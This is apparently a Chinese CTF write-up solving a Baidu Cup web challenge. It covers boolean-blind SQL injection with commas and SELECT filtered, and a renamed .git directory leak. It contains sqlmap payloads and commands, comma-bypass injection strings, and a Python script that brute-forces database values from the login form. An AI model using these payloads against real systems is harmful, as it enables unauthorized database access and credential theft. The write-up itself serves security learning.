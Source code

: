 ```yaml
---
title: 登录--sql注入逗号绕过
date: 2018-03-19 00:00:03
categories:
- CTF/Web
tags: 百度杯十月 SQL注入 .git泄露 盲注
--- 
```


## 登录框

容易发现用户名出有注入：测试`'=0%23`提示密码错，正常显示用户名不存在，应该是布尔盲注。sqlmap可以跑存在注入，但是获取不到数据。一顿测试发现，应该是过滤了逗号以及select。无论是双写还是讲select放入注释中都无法绕过，有点不知所措。

sqlmap结果：

```HTTP

    Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6775' OR 3228=3228 AND 'CeKi'='CeKi&password=admin

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5) AND 'uMBE'='uMBE&password=admin

```

### 逗号过滤

在注入中无论是联合查询，报错，布尔盲注，时间盲注，一般都需要逗号，针对不同的注入方式有不同的语法可以绕过。比如常见的布尔盲注中需要substr()函数：

```sql
select 1 and ascii(substr((user()),1,1)) > 1;
```

这里的逗号可由from for关键字代替，参数位置没变，第一个参数仍是起始位置：

```sql
select 1 and ascii(substr((user()) from 1 for 1)) > 1
```


#### 尝试sqlmap

sqlmap的tamper插件中给了两种关于绕过逗号的脚本：

1. commalesslimit.py

将 payload 中的逗号用 offset 代替，用于过滤了逗号并且是两个参数的情况

```SQL
limit 2,1 -> limit 1 offset 2
```

2. commalessmid.py

将 payload 中的逗号用 from for 代替，用于过滤了逗号并且是三参数的情况

```SQL
mid(version(), 1, 1) -> mid(version() from 1 for 1)
```

于是尝试如下扫描策略：

```bash
$ sqlmap -u "http://5255e3c2f0304c349de8a8e4352d920c0da10d0437204294.game.ichunqiu.com/Challenges/login.php" --data="username=admin&password=admin" -p "username" --risk 3 --tamper "commalessmid.py,commalesslimit.py" --dbs -v 6
```

仍然失败，查看发出的报文发现，payload如下：

```SQL
 admin' OR 5674=IF((ORD(MID((IFNULL(CAST(DATABASE() AS CHAR),0x20)) FROM 1 FOR 1))>1),SLEEP(5),5674) AND 'JBeb'='JBeb
```

仍然在其他的地方使用了逗号，所以失败

#### 手工测试

尝试如下成功：

```SQL
1'or ord(substr((user()) from 1 for 1)) > 1 #
```

爆破脚本如下：

```python
# -*-coding:utf-8-*- 

import requests
flag = ""
url = "http://5255e3c2f0304c349de8a8e4352d920c0da10d0437204294.game.ichunqiu.com/Challenges/login.php"
for i in range(1,32):
    for j in range(33,127):
        data = {
            #"username" :"admin' or ascii(substr((select SCHEMA_NAME from information_schema.SCHEMATA limit 3,1),%s,1))=%s#"%(i,j)
            
            #"username": "admin' or ascii(substr((select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=0x63657463303034),%s,1))=%s#" % (i, j)
            
            #"username": "admin' or ascii(substr((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x61646d696e limit 0,1),%s,1))=%s#" % (i, j)
            
            "username": "1'or ord(substr((user()) from %s for 1)) > %s #" % (i, j)

        }

        r = requests.post(url=url,data=data)

        if "不存" in r.content:
            flag += chr(j)
            print flag
            break
```

成功爆出：user@localhost

### SELECT 过滤

而当我把payload变成爆表名的时候却无论如何也无法成功，猜测也许是过滤了select，于是我尝试了如下测试payload：

```SQL
1'or ord(substr((select user()) from 1 for 1)) > 1 #
```

只是多了select，果然失败，于是尝试了大小写以及把select放入注释号中`/*!12345SELECT*/`都没用，但是发现网页里的class给的很奇怪：

```html
用户名：<input type="text" name="username" class="user_n3me">
密码：  <input type="password" name="password" class="p3ss_w0rd">
```

于是尝试如下，居然成功

```sql
1'or ord(substr(user_n3me from 1 for 1)) > 1 #
1'or ord(substr(p3ss_w0rd from 1 for 1)) > 1 #
```

- 刚开始我以为很奇怪，我后面都注释掉了应该已经没有from子句了，应该并不知道我选择的哪个表啊？
- 后来想明白了，因为or与其之后仍属于where子句！！！

```sql
select password from users where username = 'admin';
select password from users where username = 'admin' or id =1 #';
```

所以在where子句里是可以直接使用字段名，并当参数放入函数中的，利用如上脚本爆破用户名密码，cmd5解出hash，登录即可

```
bctf3dm1n::2bfb1532857ddc0033fdae5bde3facd
bctf3dm1n::adminqwe123666
```

## .git泄露

这题坑就在`.bctfg1t`，他把`.git`的目录名给改了，导致rip-git.pl这个脚本无法完全下载泄露的内容，最终flag信息在objects的文件夹下的一条记录。


留。
